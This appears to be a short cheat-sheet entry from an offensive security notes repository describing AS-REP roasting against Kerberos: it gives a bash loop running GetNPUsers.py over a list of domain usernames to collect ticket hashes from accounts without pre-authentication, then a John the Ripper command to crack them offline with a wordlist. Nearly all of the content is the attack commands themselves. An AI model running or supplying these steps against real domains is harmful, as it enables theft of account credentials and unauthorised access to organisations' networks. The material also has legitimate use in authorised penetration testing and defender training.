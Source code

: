 # ASREPRosting

## Given a list of valid domain usernames, query the KDC / Kerberos server to determine which has the "does not require pre-authentication" option set. You can retrieve the TGT of each account that does, and then crack them offline using JTR

* Attempt to get the TGT for each user account

```bash
for u in $(cat <username file>)
do
    GetNPUsers.py <DNS domain name>/$u
done
```

* Save recovered TGTs to tgt.txt

* Attempt to crack recovered TGTs

```bash
john tgt.txt --wordlist=<password list>
```
